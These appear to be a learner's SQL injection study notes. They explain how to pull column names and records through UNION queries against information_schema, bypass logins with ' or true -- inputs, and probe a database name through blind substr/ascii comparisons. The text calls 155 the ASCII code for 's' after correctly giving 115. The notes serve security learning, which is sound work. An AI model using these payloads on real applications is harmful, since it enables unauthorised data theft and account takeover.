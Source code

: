 # SQLi

## Notes

/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"

This creates a union query and selects our target then four null columns (to avoid the query erroring out). Notice that we also changed the ID that we are selecting from 2 to 0. By setting the ID to an invalid number, we  ensure that we don't retrieve anything with the original (legitimate) query; this means that the first row returned from the database will be our desired response from the injected query.

We have successfully pulled the first column name out of the database, but we now have a problem. The page is only displaying the first matching item -- we need to see all of the matching items.

Fortunately, we can use our SQLi to group the results. We can still only retrieve one result at a time, but by using the group_concat() function, we can amalgamate all of the column names into a single output:
/about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"

0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1

## Comments
Most commonly used comments for SQLi payloads:

```
--+
//
/*
```

What happens if we input ' or true -- username field there? This will turn the above query into this:

SELECT username,password FROM users WHERE username='' or true -- and password=''
The -- in this case has commented out the password checking part, making the application forget to check if the password was correct. This trick allows you to log in to any account by just putting a username and payload right after it.


Try putting anything') or true; -- in the password box (including the space)


##
Blind SQL

For asking the questions, you can use SUBSTR() SQL function. It extracts a substring from a string and allows us to compare the substring to a custom ASCII character.

substr((select database()),1,1)) = 115
The above code is asking the database if its name's first letter is equal to 155 ('s' in ASCII table).

Now put this into a payload:

?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
The payload is the question. If the application does not produce any changes, then the answer is 'Yes' (the database's first letter is 's'). Any error or change = 'No'.
